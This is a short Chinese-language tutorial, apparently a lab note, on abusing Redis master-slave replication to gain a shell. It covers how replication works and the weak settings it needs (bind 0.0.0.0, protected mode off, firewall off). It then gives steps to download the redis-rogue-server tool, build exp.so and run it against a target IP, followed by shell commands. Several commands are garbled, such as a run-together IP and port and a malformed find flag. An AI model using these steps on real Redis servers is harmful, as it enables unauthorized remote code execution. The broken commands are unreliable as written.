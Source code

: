 # 利用主从复制，利用攻击软件获得 shell

## 1.什么是主从复制

redis 主从复制，是指redis 主机称为 master，redis 从机称为 slave，主机 master 可读可写,从机只能读，主机更新数据，从机会从主机获取更新的数据。

#### 原理:

```
主机一旦更新数据  

rdb文件---->从机 

得到rdb 

文件load内存和主机内容保持一致
```

## 2.主从复制的实现

```
条件:能够互相访问远程redis端口，能够设置主从模式，端口都开放
具体设置:
    bind 0.0.0.0
    后台运行
    保护模式关闭
    关闭防火墙
    
实现主从的步骤
1、Kali(192.168.137.137)启动redis服务，连接自己的 redis 服务info replication 看主从设置 都显示是 master
2、从机(192.168.136.220)启动自己的redis 服务，连接自己的 redis 服务info replication 看主从设置 都显示是 master
3、从机 执行 slaveof 192.168.137.1376379 设置自己为从机，137 为自己的主机设置完毕之后从机执行 inforeplication



Down:
    物理不联通
    版本不同
    非root 运行
    bind0.0.0.0
    没有保护模式开启
    防火墙没关
主机执行 info replication
```

## 3.利用主从复制工具攻击

```bash
攻击工具配置
下载攻击工具脚本地址:https://github.com/n0bodyCN/redis-rogue-server
放入到kali 中，解压缩后生成一个文件夹
Unzip redis-rogue-server-master.zip
再目录下
cd RedisModulessDK/exp/
Make
生成 exp.so
	~/redis-rogue-server-master
	
命令：
	python3 redis-rogue-server.py --rhost 192.168.137.220 -lhost 192.168 137.137 --exp exp.so
	
	i
	whoami
	find / --name redis*
```

